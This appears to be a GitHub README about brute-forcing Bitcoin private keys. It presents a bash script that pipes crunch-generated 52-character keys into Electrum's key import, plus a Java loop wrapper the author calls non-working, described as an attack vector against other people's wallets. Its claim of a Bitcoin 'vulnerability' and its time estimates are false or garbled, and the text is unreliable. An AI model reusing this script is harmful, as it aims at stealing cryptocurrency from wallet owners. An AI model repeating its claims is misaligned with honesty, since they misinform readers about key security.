 # bitcoin-lost-deep-key-private-key
#lost bitcoin , deep key private key



#Github,

#	It might be possible to scan bitcoin private keys sitting on the network due to a vulnerability in the way bitcoin was #designed since there is nothing really safeguarding the internal framework of the bitcoin wallet either in classic, core or #other variants. Even by encrypting your wallet nothing prevents the importation of a private key by changing a configuration #flag in any wallet whether it is classic, core or a variant. I have attempted to test a basic attack vector using a password #generation program based on JTR and crunch (https://sourceforge.net/projects/crunch-wordlist/) to generate a range of base 58 #values based on bitcoin private keys and under further modification it is possible to continue to customize this form of #private key deep scan and execute it as a basic attack vector. The banking system should be notified not to get on-board with #the Bitcoin network, even though originally the bitcoin network might have represented a form of Independence from banking #institutions to by pass terrible fees from the banks and other dilemmas caused by most banks having full control.
#	As an example of private key generation and experimentation within the bitcoin network some private keys start with #L5..c4 or Ky..k1 < as an example 52 characters alpha-numeric no special characters, decoded they flip around to an address #starting with 1 as part of the end decoded process, similar to how paper wallets are printed exported and imported there is #nothing protecting a paper wallet if it is a known similar to how a private key bears no security or protection from import to #a wallet whether it is classic, core or a variant.
#	I estimate on a modern system this deep key scan for a small set of keys ranging in a few million private keys could #take anywhere from 3 to 4 months to generate and scan, furthermore I have written a crude script to try newly generated private #keys using “crunch” password generator to generate 52 character private keys starting with L or K.


#as an example using bash from a crude semi working type

#where the .txt files are private key deep search blocks generated by crunch password generator
#and electrum has to have a config flag flipped in order to import private keys, in order to being import
#you have to import a pre-existing working private key into electrum which is used here.

#!/bin/sh 

head -n1 L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt > newfile.txt 
cat newfile.txt 
perl -p -i -e 's/\R//g;' newfile.txt 
cat newfile.txt 
cat newfile.txt | electrum importprivkey - 
tail -n +2 "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" > "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" && mv "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" 






#as a crude example using java in a non working model


/* 
 * To change this license header, choose License Headers in Project Properties. 
 * To change this template file, choose Tools | Templates 
 * and open the template in the editor. 
 */ 

//package deepkeysearch; 

import java.io.BufferedReader; 
import java.io.InputStreamReader; 

public class DeepKeySearch { 

    public static void main(String[] args) { 

        DeepKeySearch obj = new DeepKeySearch(); 



    System.out.println("Place in working directory of wordlists to process"); 

    System.out.println("Change text file rotation after L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt"); 



        String command = "./deepkey.sh"; 


        String output = obj.executeCommand(command); 


        System.out.println(output); 

    } 

    private String executeCommand(String command) { 

        StringBuffer output = new StringBuffer(); 

        int infinite = 99; 

        while (infinite != 100) { 


        Process p; 
        try { 
            p = Runtime.getRuntime().exec(command); 
            p.waitFor(); 
            BufferedReader reader = 
                            new BufferedReader(new InputStreamReader(p.getInputStream())); 

                        String line = ""; 
            while ((line = reader.readLine())!= null) { 
                output.append(line + "\n"); 

        System.out.println(output); 

            } 

        } catch (Exception e) { 
            e.printStackTrace(); 
        } 

        infinite = 1; 

        } 

        return output.toString(); 

        } 



    } 






